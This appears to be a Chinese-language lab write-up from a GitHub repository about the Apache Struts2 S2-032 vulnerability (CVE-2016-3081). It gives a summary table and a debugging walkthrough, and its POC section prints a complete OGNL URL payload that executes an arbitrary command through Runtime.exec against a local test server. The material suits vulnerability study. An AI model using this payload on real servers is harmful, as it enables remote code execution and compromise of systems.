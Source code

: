 # S2-032 Demo

## Summary

| Who should read this    | All Struts 2 developers and users                            |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Possible Remote Code Execution                               |
| Maximum security rating | High                                                         |
| Recommendation          | Disable Dynamic Method Invocation if possible. Alternatively upgrade to [Struts 2.3.20.3](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.20.3), [Struts 2.3.24.3](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.24.3) or [Struts 2.3.28.1](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.28). |
| Affected Software       | Struts 2.3.20 - Struts Struts 2.3.28 (except 2.3.20.3 and 2.3.24.3) |
| Reporter                | Nike Zheng nike dot zheng at dbappsecurity dot com dot cn    |
| CVE Identifier          | CVE-2016-3081                                                |

## Problem

`Struts2`在开启了动态方法调用（Dynamic Method Invocation）的情况下，可以使用`method:<name>`的方式来调用名字是`<name>`的方法，而这个方法名将会进行`OGNL`表达式计算，导致远程命令执行漏洞。

## Environment

| Struts2 Version | Struts-2.3.24          |
| --------------- | ---------------------- |
| Web Server      | Tomcat 8.5.53          |
| IDE             | IDEA 2020.1.1 ULTIMATE |

## POC

![{AD9137BC-90B4-46DE-9213-2E79311142E0}_20200724105139]({AD9137BC-90B4-46DE-9213-2E79311142E0}_20200724105139.jpg)

Payload: 

```java
http://localhost:8080/s2_032_war_exploded/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=calc
```

## Debug

类似于`S2-016`，首先在`DefaultActionMapper`类中处理`method:`处下个断点：

`s2-032/web/WEB-INF/lib/struts2-core-2.3.24.jar!/org/apache/struts2/dispatcher/mapper/DefaultActionMapper.class:52`

<img src="{178585E3-B3AB-45A1-B0C7-ECC39C2BD274}_20200724112506.jpg" alt="{178585E3-B3AB-45A1-B0C7-ECC39C2BD274}_20200724112506" style="zoom:150%;" />

然后一直点击调试栏红色X的按钮回到`struts2`初始过滤器`StrutsPrepareAndExecuteFilter`，剩下的就和S2-016一样咯。

## Reference

- [S2-032](https://cwiki.apache.org/confluence/display/WW/S2-032)
- [S2-032 远程代码执行漏洞（CVE-2016-3081）]( https://github.com/vulhub/vulhub/blob/master/struts2/s2-032/README.zh-cn.md)
- [struts2漏洞中关于动态方法调用的一点思考](https://blog.csdn.net/zzkk_/article/details/77159524)

